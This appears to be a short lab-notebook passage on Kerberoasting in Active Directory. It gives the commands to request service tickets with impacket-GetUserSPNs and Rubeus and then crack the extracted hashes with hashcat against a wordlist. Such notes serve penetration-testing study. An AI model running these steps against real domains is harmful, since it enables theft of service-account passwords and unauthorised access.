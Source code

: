 ### Kerberoasting
With kerberoasting we are requesting SPN's TGS to the DC. The user that can access the service, for the Windows AD design, can access also the SPN and then the TGS, in order to use the service. We will abuse a service ticket in order to crack the password of the service account. We can run the attack from Rubeus with a user in the AD, and will be targeted only the **Service Principal Names** linked to the account user.

From the Kali machine we can run the attack with 

```bash
sudo impacket-GetUserSPNs -request -dc-ip <DC-IP> corp.com/<USER>
```

The `-request` flag is requesting the DC a TGS for every SPN the logged user has access to. Dumping the tickets could let us to the password because it contains password of the SPN in hash.
The TGS ticket will begin with this format: `$krb5tgs$23$`.

From the Windows machine we can use Rubeus

```powershell
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast
```

Again now we copy the hash and we crack it with hashat with the Kerberos code

```bash
sudo hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt --force
```
